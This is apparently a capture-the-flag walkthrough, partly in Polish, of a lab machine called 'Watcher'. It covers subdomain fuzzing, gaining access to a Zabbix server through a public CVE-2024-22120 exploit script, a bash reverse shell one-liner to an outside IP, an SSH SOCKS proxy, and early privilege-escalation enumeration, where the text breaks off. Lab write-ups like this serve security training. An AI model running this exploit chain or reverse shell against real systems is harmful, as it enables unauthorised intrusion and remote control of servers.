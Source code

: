 # Watcher
Linux	Medium	created by **DarkCaT & whatev3n**

```
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Did not follow redirect to http://watcher.vl/
```

szukamy sub domenek
```
ffuf -u http://watcher.vl/ -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -H "Host: FUZZ.watcher.vl" -c -mc all -fs 4991
zabbix                  [Status: 200, Size: 3946, Words: 199, Lines: 33, Duration: 217ms]
```

![{F43BE01A-230F-418B-B6B7-681D3D8FA0BF}](https://github.com/user-attachments/assets/4430e78a-d969-4aca-a972-08784c9628c6)

2001-2023 więc wiemy, że wersja z 2023 roku

![{22B255E3-418C-4741-B532-1C8D78336F90}](https://github.com/user-attachments/assets/27649b84-0b1d-4f90-b839-ef8bce630e41)

zaloguj jako gość działa.

![{13BB3659-80CB-4C27-848C-BA248CEF5F28}](https://github.com/user-attachments/assets/df94fb17-dc15-4b8a-8ed9-c7a2a34a90e2)

ale wróćmy do podatności. Jak 2023 to zakładam exploit z 2023-2024

![{EACCC4F3-7C56-47F6-9C86-3991C6B8FEDE}](https://github.com/user-attachments/assets/e17fc07b-a116-41d6-9ca5-c2d3b4182d4a)

I will try this `https://github.com/W01fh4cker/CVE-2024-22120-RCE`.

we need find `sid` and `hostid`

![{3B75815E-5906-421B-955B-43286C38CEF5}](https://github.com/user-attachments/assets/388e6570-8939-40cd-96d5-56559c6da35f)

hostid in url

![{37BD60F4-0C5C-49F1-BC5E-AC5936CABCB1}](https://github.com/user-attachments/assets/987f0efb-aac3-4efa-a603-a5990f7225a3)

sid in cookie
```
python3 CVE-2024-22120-RCE.py --ip zabbix.watcher.vl --sid a757cb51021879a08e1ffdc47348a0d7 --hostid 10084
```
- 10 minutes of waiting..

So we are zabbix user on main system. Nice

![{E9DE05FF-FA60-4C04-832C-750A56EA83D6}](https://github.com/user-attachments/assets/4ddff038-29c8-4626-a919-481671c6343a)

It is medium.. really?

![{EDF0191B-D5EF-4F09-978C-63E60AD7B737}](https://github.com/user-attachments/assets/fbdd479a-e601-4e1c-bd84-052f80643373)

spawn more stable shell and follow the commends
```
bash -c 'bash -i >& /dev/tcp/10.8.4.124/9001 0>&1'
```

![{604DA508-0AE4-4979-BAC9-7ECF3D28A963}](https://github.com/user-attachments/assets/45b349b5-df18-432c-b5ab-76a77e1d97a4)

![{B3718D34-ED70-49E8-86B4-E7DD6821CCB5}](https://github.com/user-attachments/assets/720c4af3-7fae-46b2-a499-56414067270d)

so it works but we can't create shell. This is not problem.

```
ssh zabbix@10.10.79.86 -i id_rsa -D 1080 -N
```
We created socks proxy without creatign shell.
We don't know what to do so enumerate time (with `nc` shell)

![{C47C2246-8503-4388-BD51-651FD146DB5E}](https://github.com/user-attachments/assets/5b615f30-c02d-4f0e-958e-f6ade9c09079)

Coś zdaje się latać na porcie `8111`

![{5F1C46EC-AABA-47A6-AB55-BC2D8E4E8590}](https://github.com/user-attachments/assets/67d11e44-8929-46b3-8bf5-d4f43bb89233)

Looks like `TeamCity` hehe
Lets upload some enumeration tools on machine. `https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64`

![{67C34E22-C0F9-4F0E-879B-482CA85ACCE9}](https://github.com/user-attachments/assets/0945cb89-3af1-4c9b-b7e4-5c28197ce4fe)

some sort of login script was run

![{E5026A78-90D3-43A7-AF1A-BD8A1F017771}](https://github.com/user-attachments/assets/ebeed451-b1ec-41e2-b9c2-a434802a2ba6)

index.php in `/usr/share/zabbix` was edited today so I think this is a way for escalation.

I also found so password in zabbix config.

![{0CE5E9FF-021A-4AE8-8643-0D4377D3A11E}](https://github.com/user-attachments/assets/845decd3-a25e-4f00-962c-de6c4778b915)
